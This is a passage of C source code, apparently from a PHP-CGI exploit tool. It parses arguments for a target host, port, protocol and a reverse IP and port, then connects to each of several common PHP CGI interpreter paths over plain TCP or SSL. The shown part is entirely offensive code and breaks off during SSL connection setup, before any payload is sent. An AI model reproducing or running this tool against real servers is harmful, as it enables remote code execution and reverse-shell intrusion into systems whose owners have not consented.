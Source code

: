     >     	}
    >     	memcpy(forceinterpreter, optarg, strlen(optarg)+1);
    >     	break;
    >            default:
    >     	usage(argv);
    >           }
    >           break;
    >     
    >          default:
    >           usage(argv);
    >          }
    >       }
    >     
    >       if ((optind < argc) || !target || !protocol || !port ||
    >           !reverseip || !reverseport){
    >         usage(argv);
    >       }
    >     
    >       server = gethostbyname_(target, port);
    >       if (!server) {
    >        printf("Error while resolving hostname. (7)\n");
    >        exit(255);
    >       }
    >     
    >       char *interpreters[5];
    >       int ninterpreters = 5;
    >       interpreters[0] = strdup("/cgi-bin/php");
    >       interpreters[1] = strdup("/cgi-bin/php5");
    >       interpreters[2] = strdup("/cgi-bin/php-cgi");
    >       interpreters[3] = strdup("/cgi-bin/php.cgi");
    >       interpreters[4] = strdup("/cgi-bin/php4");
    >     
    >       for (i=0;i<ninterpreters;i++) {
    >        interpreter = interpreters[i];
    >        if (forceinterpreter) {
    >          interpreter = strdup(forceinterpreter);
    >        }
    >        if (forceinterpreter && i)
    >         break;
    >        printf("%s\n", interpreter);
    >     
    >        sockfd = socket(AF_INET, SOCK_STREAM, 0);
    >        if (sockfd < 1) {
    >          printf("socket error (8)\n");
    >          exit(255);
    >        }
    >     
    >        if (connect(sockfd, (void*)server, sizeof(struct sockaddr_in)) < 0) {
    >         printf("connect error (9)\n");
    >         exit(255);
    >        }
    >        if (httpsflag) {
    >         sslconnection = (connection*) malloc(sizeof(connection));
    >         if (!sslconnection) {
    >          printf("malloc error (10)\n");
    >          exit(255);
    >         }
    >         sslconnection->handle = NULL;
    >         sslconnection->ctx = NULL;
    >     
    >         SSL_library_init();
    >     
    >         sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
    >         if (!sslconnection->ctx) {